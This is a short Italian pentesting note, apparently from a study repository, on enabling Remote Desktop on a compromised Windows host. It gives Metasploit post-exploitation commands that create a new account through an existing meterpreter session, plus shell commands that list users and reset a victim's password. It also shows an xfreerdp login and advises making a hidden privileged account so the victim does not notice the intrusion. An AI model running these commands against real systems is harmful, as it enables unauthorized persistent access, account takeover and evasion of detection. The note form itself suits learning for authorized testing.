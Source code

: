 
# Abilitazione di RDP
RDP (Remote Desktop Protocol) é disabilitato di default nei sistemi windows. <br>
Esiste un modulo Meteasploit per poterlo abilitare ma dobbiamo avere prima una sessione meterpreter con dei privilegi elevati. <Br>
```bash
use post/windows/menage/enable_rdp
set SESSION 1
set PASSWORD <pasword>                 # impostiamo una password per l'account che il modulo creerà
set USERNAME <username>                # impostiamo uno username per l'account che il modulo creerà
run
```

possiamo anche cambiare le credenziali di un utente se RDP é già abilitato. <br>
```bash
shell
net users          # per vedere che utenti sono presenti nel target
net user <username> <nuovaPassword>
```
per poterci autenticare con le nuove credenziali, usiamo `xfreerdp`
```bash
xfreerdp /u:<username> /p:<oassword> /v:<IP>
y

```
Questo metodono non é consigliato se non si volessero destare sospetti dato che se un utente dovesse vedere che la sua password non gli fará piú ottenere l'accesso al servizio RDP, potrebbe sospettare di essere stato soggetto ad un attacco, meglio se creiamo un altro account con permessi elevati e effettuiamo l'accesso da quello.

--
